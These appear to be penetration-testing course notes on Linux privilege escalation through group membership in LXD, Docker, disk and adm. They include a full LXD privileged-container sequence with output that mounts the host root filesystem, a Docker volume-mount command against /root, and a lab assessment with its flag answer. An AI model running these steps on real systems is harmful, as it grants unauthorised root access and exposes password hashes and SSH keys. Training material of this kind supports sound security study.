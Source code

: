 # Privileged Groups

## LXC / LXD

`LXD` -> similar to Docker

* Upon installation, all users are added to the LXD group.
* Membership of this group can be used to escalate privileges
  * **creating an LXD container, making it privileged, and then accessing the host file system at `/mnt/root`.**

Confirm group membership and use these rights to escalate to root.

```shell-session
devops@NIX02:~$ id

uid=1009(devops) gid=1009(devops) groups=1009(devops),110(lxd)
```

Unzip the Alpine image.

```shell-session
devops@NIX02:~$ unzip alpine.zip 

Archive:  alpine.zip
extracting: 64-bit Alpine/alpine.tar.gz  
inflating: 64-bit Alpine/alpine.tar.gz.root  
cd 64-bit\ Alpine/
```

Start the LXD initialization process. Choose the defaults for each prompt. Consult this [post](https://www.digitalocean.com/community/tutorials/how-to-set-up-and-use-lxd-on-ubuntu-16-04) for more information on each step.

```shell-session
devops@NIX02:~$ lxd init

Do you want to configure a new storage pool (yes/no) [default=yes]? yes
Name of the storage backend to use (dir or zfs) [default=dir]: dir
Would you like LXD to be available over the network (yes/no) [default=no]? no
Do you want to configure the LXD bridge (yes/no) [default=yes]? yes

/usr/sbin/dpkg-reconfigure must be run as root
error: Failed to configure the bridge
```

Import the local image.

```shell-session
devops@NIX02:~$ lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine

Generating a client certificate. This may take a minute...
If this is your first time using LXD, you should also run: sudo lxd init
To start your first container, try: lxc launch ubuntu:16.04

Image imported with fingerprint: be1ed370b16f6f3d63946d47eb57f8e04c77248c23f47a41831b5afff48f8d1b
```

Start a privileged container with the `security.privileged` set to `true` to run the container without a UID mapping, making the root user in the container the same as the root user on the host.

```shell-session
devops@NIX02:~$ lxc init alpine r00t -c security.privileged=true

Creating r00t
```

Mount the host file system.

```shell-session
devops@NIX02:~$ lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true

Device mydev added to r00t
```

Spawn a shell inside the container instance. We can now browse the mounted host file system as root.

type `cd /mnt/root/root`. From here we can read sensitive files such as `/etc/shadow` and obtain password hashes or gain access to SSH keys in order to connect to the host system as root, and more.

```shell-session
devops@NIX02:~$ lxc start r00t
devops@NIX02:~/64-bit Alpine$ lxc exec r00t /bin/sh

~ # id
uid=0(root) gid=0(root)
~ # 
```

## Docker

* Placing user in Docker group is like placing them into root
* Members of the docker group can spawn new docker containers.
* `docker run -v /root:/mnt -it ubuntu`. This command create a new Docker instance with the /root directory on the host file system mounted as a volume.
* Once container starts  we can retrive or add SSH keys for the root user.
* It's not limited to root directory, we can mount /etc to obtain /etc/shadow file

## Disk

* Users in disk group have full access to any devices contained within `/dev`, such as `/dev/sda1` -> main device used by the operating system.
* Attacker with this privilege can use debugfs to access entire file system with root level privileges. We can use this to get SSH keys, credentials or add a user

### ADM

* ADM group can read all logs in /var/log.
* Can be leveraged to gather sensitive data stored in log files or enum user action and cron jobs

```shell-session
secaudit@NIX02:~$ id

uid=1010(secaudit) gid=1010(secaudit) groups=1010(secaudit),4(adm)
```

## Assessment

Use the privileged group rights of the secaudit user to locate a flag.

<figure><img src="../../../.gitbook/assets/image (18) (3).png" alt=""><figcaption><p>ADM group</p></figcaption></figure>

```
secaudit@NIX02:/var/log$ grep -r -l 'flag' . 2>/dev/null
./installer/hardware-summary
./apache2/access.log
secaudit@NIX02:/var/log$ cat ./apache2/access.log | grep "flag"
10.10.14.3 - - [01/Sep/2020:05:34:22 +0200] "GET /flag%20=%20ch3ck_th0se_gr0uP_m3mb3erSh1Ps! HTTP/1.1" 301 409 "-" "Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0"
10.10.14.3 - - [01/Sep/2020:05:34:22 +0200] "GET /flag%20=%20ch3ck_th0se_gr0uP_m3mb3erSh1Ps HTTP/1.1" 404 27847 "-" "Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0"
```

